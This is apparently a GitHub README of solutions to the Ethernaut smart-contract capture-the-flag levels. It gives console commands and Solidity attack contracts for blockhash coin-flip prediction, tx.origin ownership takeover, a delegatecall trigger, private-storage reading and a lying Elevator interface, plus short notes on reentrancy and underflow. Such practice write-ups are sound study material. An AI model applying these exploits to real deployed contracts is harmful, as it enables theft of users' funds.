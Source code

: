 # ethernaut-challenges

### challenge 1
await contract.contribute({value: toWei("0.000001")})

await contract.sendTransaction({value: toWei("0.000001")})

await contract.withdraw()

### challenge 2
Constructor spelled incorrectly


await contract.Fal1out({value: toWei("0.00000001")})

### challenge 3

```
pragma solidity ^0.8.0;

import "https://github.com/OpenZeppelin/openzeppelin-contracts/contracts/utils/math/SafeMath.sol";

interface CoinFlip {
    function flip(bool) external;
}

contract Attack {
    address cF = 0x30C7A39F911f075F45434357af31Ec5aaA9828bb;

    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    uint256 public value;

    function attack() public returns (uint256){
        uint256 blockValue = uint256(blockhash(block.number - 1));

        uint256 coinFlip = blockValue / FACTOR;
        bool side = coinFlip == 1 ? true : false;

        CoinFlip(cF).flip(side);

        return blockValue;
    }
}
```

### challenge 4

```
pragma solidity ^0.8.0;

interface Telephone {
    function changeOwner(address) external;
}

contract Attack {
    address telephoneAddress = 0x0bDb4C476e8719Db25Baac7Ab796008023C5Ed3A;
    address myAddress = 0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88;

    function attack() public {
        Telephone(telephoneAddress).changeOwner(myAddress);
    }
}
```

### challenge 5

Underflow and has to be called by someone else

### challenge 6

await window.web3.eth.sendTransaction({
    from: '0xD0eba5f813cEfa1FD5f60E11feCD84f39a9dDA88',
    to: '0x601D70A2fFAC4C90A3D4c4931564EE3d857d39F8',
    data: '0xdd365b8b'
})


### challenge 8

This will give you the pass:

await window.web3.eth.getStorageAt(contract.address,1)

### challenge 10

classic reentracy attack in withdraw

### challenge 11

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

interface Elevator {
    function goTo(uint _floor) external;
}

contract Attacker {
    uint256 public nn;

    function attack(address _address) external {
        Elevator elevator = Elevator(_address);
        elevator.goTo(22);

    }

    function isLastFloor(uint) external returns (bool) {
        if (nn % 2 == 0) {
            nn += 1;
            return false;
        } else {
            nn += 1;
            return true;
        }      
    }
}
```

### challenge 12

pretty easy to read out the storage.

for whatever reason metamask would change my input data which took me one hour to figure out. works with remix.

